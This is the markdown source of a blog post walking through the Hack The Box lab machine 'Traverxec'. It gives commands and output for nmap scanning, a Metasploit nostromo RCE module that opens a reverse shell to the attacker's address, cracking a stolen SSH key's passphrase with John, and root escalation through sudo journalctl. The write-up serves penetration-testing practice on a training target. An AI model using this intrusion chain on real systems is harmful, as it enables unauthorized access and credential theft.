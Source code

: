 ```yaml
---
date: 2020-04-15 06:21:35
layout: post
title: "Traverxec Hack The Box Walkthrough"
subtitle:
description: Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills.
image: /assets/img/uploads/traverxec/traverxec.jpg
optimized_image: /assets/img/uploads/traverxec/traverxec.jpg
category: walkthrough
tags: hackthebox boot2root
author: madhavmehndiratta
paginate: false
keywords: traverxec hack the box, hackthebox walkthrough, traverxec, htb, infosec articles, traverxec walkthrough, traverxec writeup
---
```



Today we will be doing Traverxec from Hack The Box. This box was rated easy and good for beginners to practice penetration testing skills. For the initial foothold we had to exploit a web server that was vulnerable to remote code execution and get a reverse shell back into our machine. For root, the user David had privilege to execute journalctl as root and we leveraged that to get root in the box. With that said let’s jump in.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open and it is running <i>nostromo 1.9.6</i>. Looking at port 80, we have a static website with nothing useful.

## Initial Foothold:

Now let's look on searchsploit if we have a vulnerable version of nostromo.

```r
m1m3@kali:~$ searchsploit nostromo

--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Let's use the metasploit for it.

```r
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a tty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type <i>id</i> we get the user of the shell:

```r
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User Shell:

With some enumeration, we can see a nostromo configuration file present at <b>/var/nostromo/conf</b> that reveals a public home directory.

```r
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of <i>/home/david/public_www</i>

```r
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah

ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the <i>protected-file-area</i> I found a <i>backup-ssh-identity-files.tgz</i>. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```r
m1m3@kali:~$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```r
m1m3@kali:~$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```r
david@traverxec:~/bin$ cat server-stats.sh

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run <i>/usr/bin/journalctl</i> with sudo. So I searched in [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using <i>!/bin/bash</i>.

```r
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/kangle">Kanye.</a>